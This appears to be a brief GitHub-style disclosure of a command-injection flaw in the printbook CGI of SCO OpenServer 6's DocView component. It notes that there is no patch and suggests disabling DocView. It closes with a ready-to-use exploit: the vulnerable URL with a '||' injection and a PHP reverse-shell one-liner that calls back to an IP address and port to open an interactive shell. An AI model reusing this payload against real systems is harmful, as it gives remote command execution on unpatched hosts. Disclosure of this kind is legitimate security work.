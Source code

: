 
# SCO OpenServer 6 CGI Parameter Bypass RCE
### **Responsible Disclosure Was Attempted.**


It was discovered that the printbook functionality within the DocView CGI library was vulnerable to a pipe parameter bypass, allowing an attacker to execute arbitrary system commands.
For some reason this ancient attack technique is still present within some older operating systems.

Tested on SCO OpenServer 6, however the printbook.cgi is still present within newer versions of OpenServer so im'a guess that the issue is still present. OpenServer is a little weird, its a unix based OS but dont expect most of the usual shells/tools to work.

Theres no official patch on fixing this however if you disable the DocView function you should be good.

![RCE Against SCO-OpenServer6](https://i.imgur.com/pzCZS3M.png)

### Affected parameter and URL decoded payload:

 - /cgi-bin/printbook?booktitle=216409&toclevels=1&part=%2fen%2fOSR_FEATS%2fCONTENTS.html&outputform=pdf[VULN]
 - || php -r '$sock=fsockopen("10.165.34.103",4242);exec("/bin/sh -i <&3 >&3 2>&3");' &



